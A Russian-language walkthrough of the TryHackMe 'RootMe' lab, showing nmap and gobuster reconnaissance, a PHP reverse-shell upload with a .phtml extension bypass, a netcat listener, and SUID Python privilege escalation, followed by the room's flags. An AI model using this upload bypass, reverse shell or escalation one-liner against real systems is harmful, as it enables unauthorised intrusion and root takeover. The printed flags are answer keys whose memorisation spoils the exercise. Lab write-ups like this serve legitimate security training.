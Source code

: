 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [RootMe](https://tryhackme.com/r/room/rrootme) 

Всего 4 задания:
## Задание 1
Подключитесь к сети TryHackMe и разверните машину. Если вы не знаете, как это сделать, сначала пройдите комнату OpenVPN.
```commandline
penvpn /home/kali/Documents/THM-openvpn/andrej.marinchenko.ovpn
ip addr
```
- 10.9.1.51 - адрес моей машины с kali linux для атаки
- 10.10.108.56 - адрес целевой машины

### Ответить на вопросы ниже
Разверните машину
```commandline
Ответ не нужен
```

## Задание 2
Для начала давайте получим информацию о цели.
```commandline
nmap -sC -sV 10.10.108.56

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-10 04:39 EDT
Nmap scan report for 10.10.108.56
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```
### Ответить на вопросы ниже
Просканируйте машину, сколько портов открыто?
```commandline
2
```
Какая версия Apache используется?
```commandline
2.4.29
```
Какая служба работает на порту 22?

```commandline
ssh
```
Найдите каталоги на веб-сервере с помощью инструмента GoBuster.
```commandline
gobuster dir -u 10.10.108.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.108.56
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.108.56/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.108.56/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.108.56/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.108.56/panel/]
Progress: 6091 / 220561 (2.76%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 6110 / 220561 (2.77%)
===============================================================
Finished
===============================================================
```
```commandline
Ответ не нужен
```
Что такое скрытый каталог?
```commandline
/panel/
```

## Задание 3
Найдите форму для загрузки и получения обратного шелла, а также найдите флаг.

на найденной странице http://10.10.108.56/panel/ мы можем загружать файлы, давайте попробуем загрузить наш 
реверс-шелл написанный на php, для этого создадим файл:
```commandline
nano reverse.php
```
и вставим в него содержимое реверс-шела на подобии такого https://github.com/pentestmonkey/php-reverse-shell только 
не забываем заменить значения IP-адреса и порта для прослушивания, которые мы запустим для подключения в моем случае 
это 
- $ip = '10.9.1.51';  // CHANGE THIS
- $port = 4444;       // CHANGE THIS

отлично, файл мы создали, теперь его нужно загрузить на целевую машину, для этого перейдем на страницу 
http://10.10.108.56/panel/ выберем загрузить файл в соответсвующем поле и выберем на php файл, сразу мы получим 
предупреждение, php-файлы загружать нельзя, не беда, обойдем эту проверку переименовав наш файл из php в phtml
```commandline
mv reverse.php reverse.phtml
```
и повторим попытку загрузки файла на странице http://10.10.108.56/panel/ на этот раз все получилось...
далее откроем на нашей машине порт для прослушивания и подключения с машины жертвы:
```commandline
nc -lvnp 4444
```
теперь нам осталось выполнить наш реверс-шел, запустить его на машине жертвы можно перейдя на другую страницу
http://10.10.108.56/uploads/
и выбрать название нашего реверс-шела, для его выполнения. После чего возвращаемся на нашу машину где прослушивался 
соответсвующий порт и убедится в том, что доступ к машине жертвы получен.

```commandline
id 
whoami
```
конечно мы не обладаем правами супер-пользователя, но даже этого будет достаточно что бы найти 1-й флаг
```commandline
find / -type f -name user.txt 2>/dev/null 
cat /var/www/user.txt
```

### Ответить на вопросы ниже
пользователь.txt

```commandline
THM{y0u_g0t_a_sh3ll}
```

## Задание 4
Теперь, когда у нас есть оболочка, давайте повысим наши привилегии до root.
Для этого найдем файлы которые можно выполнить с правами суперпользователя
```commandline
find / -type f -user root -perm -4000 2>/dev/null
or
find / -perm -u=s -type f 2>/dev/null
```
т.к. есть возможность запускать python, этим мы и воспользуемся, для того что бы подобрать команду можно 
перейти на https://gtfobins.github.io/ и в соответсвующем разделе python - SUID найти нужную строку:
```commandline
python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’
id
whoami
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```
### Ответить на вопросы ниже
Найдите файлы с разрешением SUID. Какой файл странный?

```commandline
/usr/bin/python
```
Найдите форму для повышения своих привилегий.
```commandline
Ответ не нужен
```
корень.txt
```commandline
THM{pr1v1l3g3_3sc4l4t10n}
```

## Задание 5

```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

